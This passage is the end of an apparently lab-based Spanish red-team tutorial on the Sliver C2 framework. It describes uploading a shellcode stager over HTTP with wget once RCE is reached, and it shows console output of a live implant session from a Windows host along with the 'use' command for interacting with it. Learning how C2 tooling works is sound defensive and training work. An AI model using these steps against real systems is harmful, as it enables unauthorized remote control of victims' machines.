 Y al finalizar de copiar y pegar el shellcode, sólo debemos subir nuestro stager (si alcanzamos RCE, has el proceso clásico de iniciar un servidor HTTP en agún puerto que no utilices, hacer el `wget` al archivo, acceder desde el navegador) y recibir la conexión del implante:

```js
[*] Session e1b6e6f4 WHISPERING_PLANE - 192.168.122.2:49692 (Personal01) - windows/amd64 - Wed, 10 Sep 2025 23:36:49 CST

sliver > sessions 

 ID         Name               Transport   Remote Address         Hostname   Username   Operating System   Locale   Last Message                            Health  
========== ================== =========== ====================== ========== ========== ================== ======== ======================================= =========
 e1b6e6f4   WHISPERING_PLANE   http(s)     192.168.122.2:49692   Personal01      <err>      windows/amd64      en-US    Wed Sep 10 23:36:57 CST 2025 (1s ago)   [ALIVE] 

sliver >  
```

Y para interactuar, basta con utilizar `use` y los primeros caracteres del ID para luego completarlo con el `TAB` (autocompletado)

```js
sliver > use e1b6e6f4-4bff-422f-be7b-2244948f25e9

[*] Active session WHISPERING_PLANE (e1b6e6f4-4bff-422f-be7b-2244948f25e9)

sliver (WHISPERING_PLANE) >  
```


###### Agradecimiento

Si lees esto, gracias por llegar hasta aquí!, si existen dudas, comentarios y correcciones (que son más que bienvenidas) contáctame con confianza, que siempre he dicho que la ciberseguridad es esfuerzo conjunto. 

En caso que no los vea, buenos días, buenas tardes y buenas noches. Happy Hacking!.